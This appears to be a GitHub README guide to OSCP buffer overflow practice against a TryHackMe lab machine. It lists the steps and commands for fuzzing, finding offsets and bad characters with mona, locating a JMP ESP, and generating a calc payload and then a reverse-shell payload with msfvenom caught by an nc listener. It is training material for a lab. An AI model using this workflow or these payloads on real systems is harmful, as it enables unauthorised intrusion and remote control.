 # OSCP_Prep: Buffer Overflow

For OSCP Buffer Overflow preparation, you don't need complicated codes and/or advanced python skills. You just need a simple python code and work your way up. The following steps are to help you in each of the step that you take. These 6 simple steps are just what you need for OCSP Buffer Overflow preparation.

Free TryHackMe Room: https://tryhackme.com/room/bufferoverflowprep

```c++
> xfreerdp /u:admin /p:password /cert:ignore /v:192.168.10.10
```

### 01 Fuzzing

```c++
> ./01-fuzz.py
```

Press `Ctrl + C` after the application crushed. Note down the byte number. (Example: Crushed at 2000)

### 02 Finding Offset

```c++
> msf-pattern_create -l 2000

> ./02-offset.py
```

At this point, I'm assuming you have Mona setup. 

```c++
> !mona findmsp -distance 2000
```

Find EIP normal pattern. (Example: EIP contains normal pattern : 0x42987857 (offset 1876))

### 03 Controlling EIP

```c++
> ./03-eip.py
```

You should see `424242` for EIP.

### 04 Finding Bad Characters

Setting up mona working directory:

```c++
> !mona config -set workingfolder c:\mona\%p
```

Generating byte array:

```c++
> !mona bytearray -b "\x00"
```

Running the script:

```c++
> ./04-badchar.py

> !mona compare -f C:\mona\oscp\bytearray.bin -a 0321FF88
```

Generating byte array with bad characters removed. Update the script and run again util you see 'Unmodified' status in mona memory comparison results.

```c++
> !mona bytearray -b "\x00\x0d"

> ./04-badchar.py

> !mona compare -f C:\mona\oscp\bytearray.bin -a 03B2FF88
```

### 05 Finding a Jump Point

```c++
> !mona jmp -r esp -cpb "\x00\x0d"
```

Set the break point by entering the pointer address and pressing `F2`.

```c++
> ./05-pointer.py
```

If the pointer address stop at EIP. You are good to go.

### 06 Popping Calculator

```c++
> msfvenom -p windows/exec CMD="C:\windows\system32\calc.exe" -b '\x00\x0d' -f c

> ./06-calc.py
```

After successfully popping the calculator app, next step is to get a shell.

```c++
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.11 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0d"

> nc -lvnp 443

> ./07-exploit.py
```



